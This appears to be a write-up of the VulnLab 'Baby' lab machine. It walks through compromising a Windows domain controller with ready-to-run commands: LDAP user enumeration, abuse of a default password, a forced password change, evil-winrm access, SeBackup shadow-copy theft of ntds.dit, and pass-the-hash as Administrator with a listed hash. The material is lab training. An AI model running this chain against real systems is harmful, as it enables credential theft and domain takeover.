
VulnLab: Baby
We have no anonymous SMB access and we cant get any info from rpc client.
Ldap search we can get a lot of juicy info without creds.
Default password for users
BabyStart123!
Login does not work for teresa.bell though

We can get a list of users with the command below
ldapsearch -H ldap://10.10.124.185 -x -b 'DC=baby,DC=vl' -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
But the password still doesn't work for any other users on the machine. However one user has an interesting popup

We can change this using impacket-changepasswd
impacket-changepasswd 'Caroline.Robinson:BabyStart123!@baby.vl' -newpass Password2
Confirmed the changed worked

We have evil-winrm access
evil-winrm -i baby.vl -u caroline.robinson -p Password2
Grab the user flag

We have SeBackup so we can use that to grab the admin flag


We can download the SAM database but the ntlm for admin is incorrect.
The link below covers a smart way to get the ntds.dit
https://hiddendoorsecurity.com/2024/05/27/walkthrough-baby-vulnlab/
Create a diskshadow.txt file with the contents below
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
then run these commands
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -appendThen execute the command below which clones C: to Z:
diskshadow.exe /s c:\temp\diskshadow.txt
Then we can copy the ntds.dit here and download it
robocopy /b Z:\Windows\ntds . ntds.ditdownload ntds.ditThen we use impacket to dump the new hashes and get a valid hash for admin

evil-winrm -i 10.10.71.244 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d
